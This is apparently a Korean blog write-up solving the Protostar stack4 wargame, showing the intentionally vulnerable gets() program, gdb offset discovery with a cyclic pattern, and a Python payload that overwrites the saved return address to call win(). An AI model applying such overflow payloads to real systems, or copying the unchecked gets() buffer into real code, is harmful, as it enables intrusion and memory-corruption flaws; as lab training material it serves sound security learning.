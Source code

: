 ```yaml
---
layout: post
title: "[exploit-exercise] Protostar stack4"
date: 2016-07-03 13:00:00
category: wargame
tags:  [exploit-exercise, protostar]
---
```


[Protostar Stack4 - Exploit Exercises](https://exploit-exercises.com/protostar/stack4/)

>Stack4 takes a look at overwriting saved EIP and standard buffer overflows.
>
>This level is at /opt/protostar/bin/stack4
>
>Hints
>
>A variety of introductory papers into buffer overflows may help.
>gdb lets you do “run < input”
>EIP is not directly after the end of buffer, compiler padding can also >increase the size.

<!--more--> 

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

#### 해결 방안

>A variety of introductory papers into buffer overflows may help.

BoF 에 대한 많은 입문 글들이 도움이 될 것이다. 즉, 그런 글을 먼저 읽어보라는 이야기겠죠. 

이전 문제와 다른 점은 crash 할 수 있는 다른 변수가 없다는 것이다. 따라서 stack 에 저장된 `lr` 을 덮으면 될 듯... `buffer[64]` 뒤에 `lr` 이 어디에 저장이 되어 있는지를 정확하게 하기 위하여 정해진 pattern 으로 stack crash 시킨 다음에 `eip` 를 확인해보자.

정해진 pattern create 해주는 기능이 많이 있지만 일반적으로 쓸 수 있도록 아래 python script 를 이용해보자.

[Svenito/exploit-pattern: generate and search pattern string for exploit development](https://github.com/Svenito/exploit-pattern)

```bash
$ pattern.py 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

#### 분석

```bash
$ echo Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9 | ./stack4
Segmentation fault  
```

BoF 가 터졌다~~~
gdb 를 붙여서 좀더 자세하게 확인해보자.

```bash
$ echo Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9 > /tmp/input
$ gdb ./stack4
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) r < /tmp/input
Starting program: /opt/protostar/bin/stack4 < /tmp/input

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()  
```

처음에는 pattern 에서 찾아서 위치를 확인했었는데, pattern script 에서 값을 넣어주면 위치까지 저절로 찾아준다. :)

```bash
$ pattern.py 0x63413563
Pattern 0x63413563 first occurrence at position 76 in pattern.
```

BoF 로 `eip` 설정할 값은 `win()` 이므로 주소 확인.

```
(gdb) disas win
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   %ebp
0x080483f5 <win+1>:     mov    %esp,%ebp
0x080483f7 <win+3>:     sub    $0x18,%esp
0x080483fa <win+6>:     movl   $0x80484e0,(%esp)
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret  
```

#### Exploit 

```bash
$ python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
Segmentation fault  
```

그런데, `lr` 이 4 bytes align 이 맞지 않게 `76` bytes 뒤에 잡히나 했는데... `76` 이 `4` 의 배수였군요... 역시나 `4` alignment 맞는다.
